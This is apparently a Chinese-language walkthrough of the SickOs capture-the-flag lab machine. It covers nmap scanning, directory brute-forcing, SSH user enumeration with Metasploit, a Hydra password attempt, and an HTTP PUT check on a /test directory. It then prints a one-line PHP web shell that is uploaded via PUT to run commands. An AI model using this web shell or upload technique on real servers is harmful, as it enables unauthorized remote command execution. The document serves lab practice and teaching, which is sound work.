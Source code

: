 简单的思路就是这样

主要是考验攻击者在面对各个用户之间能否很好的利用各个用户之间存在的权限 对弱点进行定点打击


# sickos
## nmap扫描
扫出一个80端口

## 文件目录爆破
也就发现一个test目录

但下面发现了一个版本号lighttpd/1.4.28 并无方向 也没有很多可以利用的漏洞

## 转战ssh 
#注意 别在一棵树上吊死 一个没有什么思路赶紧切换

看看ssh有什么可以利用的吗

发现有个用户名枚举漏洞

用msf的scanner/ssh/ssh_enumusers来枚举用户

![image.png](https://s2.loli.net/2025/05/01/bR1veQr6jLwW3nT.png)

尝试用hydra破解一下john的密码

## 新思路
这个时候把思路放到test目录下 看看能有啥地方可以玩玩吗

#注意 这种类似的目录可以用nmap脚本扫描/test页面的支持的http方法
```
--script=http-methods.nse --script-args=http.methods.url-path="/test
```
![image.png](https://s2.loli.net/2025/05/01/TEbyJDzLWs13i8l.png)

发现居然能put

![image.png](https://s2.loli.net/2025/05/01/RDzVmIjoY7KGtp6.png)

上传一个可以执行命令的php代码

```
<?php system($_GET["cmd"]);?>
```

![image.png](https://s2.loli.net/2025/05/01/d2LH86b7fg3lzDQ.png)

可以使用 

![image.png](https://s2.loli.net/2025/05/01/fUSpbracDtnqNYZ.png)
